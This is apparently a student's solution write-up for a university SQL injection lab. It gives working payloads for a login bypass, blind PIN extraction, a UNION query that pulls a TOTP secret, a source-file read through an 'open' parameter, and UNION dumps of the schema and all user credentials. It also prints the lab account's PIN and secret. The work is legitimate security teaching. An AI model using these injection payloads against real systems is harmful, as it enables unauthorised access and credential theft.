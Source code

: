 # My solution of the SQL Injection Assignment

See [the assignment here](./SQL-Injection-Assignment.md).


# Task 1

First, I entered Username `endlemar` and password `'XXX`.

Luckily, the app returned a page with an error message:

```
Wrong SQL query: SELECT username FROM users WHERE username = 'endlemar' AND password = SHA1(CONCAT(''XXX', (SELECT salt FROM users WHERE username = 'endlemar')))
```

Seeing the whole query and the position of my “password” `'XXX`, I constructed the following value for `password` that
will result one row where username is `endlemar`:

```
')) OR 1 = 1 AND username = 'endlemar' -- 
```

**Note 1:** There is a trailing space in `-- `.

**Note 2:** The entered Username in the form does not affect the result of the SQL query when using this SQL injection.


## Task 2

Using the Hint #1 (Table `users` contains column `pin`), I constructed several queries (passwords) to find out what my
4-digits PIN is.

First, I found out that my PIN contains only digits 1, 3, 5, 7 using the queries in the following form (where `<number>`
is 0,..,9).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<number>%' -- 
```

That meant that there is only `4! = 16` possible PINs. However, I constructed additional queries to find out the digits'
relative precedence to each other (the condition evaluated to TRUE when `<i>` preceded `<j>`).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<i>%<j>%' -- 
```

Reducing the possible number of permutations this way, I quickly discovered that my PIN is `5371`.


## Task 3

Using the following query (password), I found out my secret is `E5XVZ2XDHS4SNGE2`:

```
')) AND 1 = 0 UNION SELECT secret FROM users WHERE username = 'endlemar' -- 
```

Once I had the secret, I used the Google Authenticator mobile app to generate the corresponding OTPs
(by manually creating a new account using the secret as “a setup key”).

The generated OTPs worked and I got in.

### Side note

Originally, I wanted to use this technique (with UNION) to find out my PIN. But it turns out that the app
must have some built-in protection against it:

```
')) AND 1 = 0 UNION SELECT pin FROM users WHERE username = 'endlemar' -- 
```

It seems that even though the SQL query succeeds and returns one username, the app checks whether the returned value is
from the user's table columns `username` and/or `secret`.

The following works:

```
')) AND 1 = 0 UNION SELECT 'endlemar' as username -- 
')) AND 1 = 0 UNION SELECT 'E5XVZ2XDHS4SNGE2' as username -- 
```

But the following does NOT work:

```
')) AND 1 = 0 UNION SELECT '5371' as username -- 
')) AND 1 = 0 UNION SELECT 'something' as username -- 
```


## Task 4

Once I successfully logged in, I started exploring the UI and all its features.
I noticed the link “Warning!” which led to the URL `https://kbe.felk.cvut.cz/index.php?open=warning.txt`.
Almost immediately I tried replacing `warning.txt` with `index.php`.
And to my pleasant surprise, the server responded with a highlighted source code of the index.php.
After a quick look, I figured it must be the same index.php that is actually running on the server.

**Note 3:** In fact, no login is needed to access https://kbe.felk.cvut.cz/index.php?open=index.php.
**Note 4:** The code (line 67) confirms my suspicions from [Task 3's Side note](#side-note).

The next feature I noticed was the pagination mechanism of messages which was using `offset` query parameter.
By looking into the code I quickly constructed offset values that helped me obtain the names of the database tables and
their column names:

```
0 UNION SELECT table_name, 1 FROM information_schema.tables
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'users'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'messages'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'codes'

0 UNION SELECT CONCAT(username, '\t', password, '\t', pin, '\t', secret, '\t', salt), 1 FROM users
0 UNION SELECT CONCAT(username, '\t', base64_message_xor_key, '\t', date_time), 1 FROM messages
```

The database has 3 tables with the following columns:

* users
	* username
	* password
	* pin
	* secret
	* salt
* messages
	* username
	* base64_message_xor_key
	* date_time
* codes
	* username
	* aes_encrypt_code
